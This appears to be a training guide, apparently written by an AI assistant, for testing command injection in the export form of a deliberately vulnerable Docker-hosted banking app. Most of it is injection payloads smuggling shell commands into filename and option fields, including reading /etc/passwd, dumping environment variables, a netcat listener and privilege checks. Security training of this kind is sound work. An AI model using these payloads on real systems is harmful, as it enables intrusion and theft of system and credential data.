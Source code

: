 Here's how to test the command injection vulnerabilities in the export feature:

## Testing the Command Injection Vulnerabilities

### 1. **Filename Parameter Injection**

**Test Case 1: Basic Command Injection**
- **Filename:** `transactions; ls -la`
- **Expected Result:** The `ls -la` command will execute and show directory contents
- **What happens:** Creates file and then lists directory contents

**Test Case 2: Extract System Information**
- **Filename:** `transactions; whoami; id`
- **Expected Result:** Shows current user and user ID information
- **Command executed:** `mkdir -p /tmp/exports && touch /tmp/exports/transactions; whoami; id.csv`

**Test Case 3: Read System Files**
- **Filename:** `transactions; cat /etc/passwd`
- **Expected Result:** Displays contents of the passwd file (if readable)

### 2. **Compression Parameter Injection**

**Test Case 4: Process Listing**
- **Filename:** `test`
- **Compression:** `ps aux; echo "injected"`
- **Expected Result:** Shows running processes

**Test Case 5: Network Information**
- **Filename:** `test`  
- **Compression:** `netstat -an; echo "network info"`
- **Expected Result:** Displays network connections

### 3. **Custom Options Parameter Injection**

**Test Case 6: Environment Variables**
- **Custom Options:** `env | grep -i user`
- **Expected Result:** Shows user-related environment variables

**Test Case 7: File System Exploration**
- **Custom Options:** `find /tmp -name "*.csv" -ls`
- **Expected Result:** Lists CSV files in /tmp directory

### 4. **Multi-Parameter Injection**

**Test Case 8: Complex Injection**
- **Filename:** `transactions; echo "step1"`
- **Compression:** `echo "step2"; ls /tmp`
- **Custom Options:** `echo "step3"; date`
- **Expected Result:** Executes all three echo commands plus ls and date

## How to Execute Tests

1. **Navigate to Export Page:**
   ```
   http://localhost:5000/export
   ```

2. **Fill in the form with injection payloads**

3. **Click "Generate Export"**

4. **Check the results in:**
   - Flash messages at the top
   - "Export Results" section showing:
     - Command Executed (you'll see the full injected command)
     - System Output (results of your injected commands)
     - Error Details (if commands failed)

## What to Look For

### In the Browser:
- **Command Executed** section shows your injected commands
- **System Output** shows the results of executed commands
- Console logs (F12 Developer Tools) show the DEBUG output

### In the Application Logs:
```bash
# If running with Docker:
docker logs banking-app

# Look for lines like:
DEBUG: Executing export command: mkdir -p /tmp/exports && touch /tmp/exports/transactions; ls -la.csv
```

## Example Successful Injection

**Input:**
- Filename: `transactions; echo "INJECTED SUCCESSFULLY"; uname -a`
- Format: `csv`

**Expected Output in "Command Executed":**
```
mkdir -p /tmp/exports && touch /tmp/exports/transactions; echo "INJECTED SUCCESSFULLY"; uname -a.csv
```

**Expected Output in "System Output":**
```
INJECTED SUCCESSFULLY
Linux banking-app 5.4.0 #1 SMP ... x86_64 GNU/Linux
```

## Advanced Test Cases

### 1. **Reverse Shell Simulation** (Safe for training):
```bash
# Filename: 
transactions; echo "reverse shell attempt"; nc -l 1234 &
```

### 2. **Data Exfiltration Simulation**:
```bash
# Custom Options:
cat /etc/hosts > /tmp/stolen.txt; echo "data exfiltrated"
```

### 3. **Privilege Escalation Attempt**:
```bash
# Compression:
sudo -l; echo "checking privileges"
```

## Safety Notes for Training

- The application runs in a container, so damage is limited
- Commands execute with the application's user privileges (non-root)
- File system access is restricted to the container
- Network access depends on container configuration

## Verifying Injection Success

1. **Check if files were created:**
   ```bash
   docker exec banking-app ls -la /tmp/exports/
   ```

2. **See what commands actually ran:**
   ```bash
   docker exec banking-app ps aux
   ```

3. **Check container logs:**
   ```bash
   docker logs banking-app | grep DEBUG
   ```

This gives you comprehensive testing scenarios to demonstrate how command injection vulnerabilities work and their potential impact in a controlled training environment.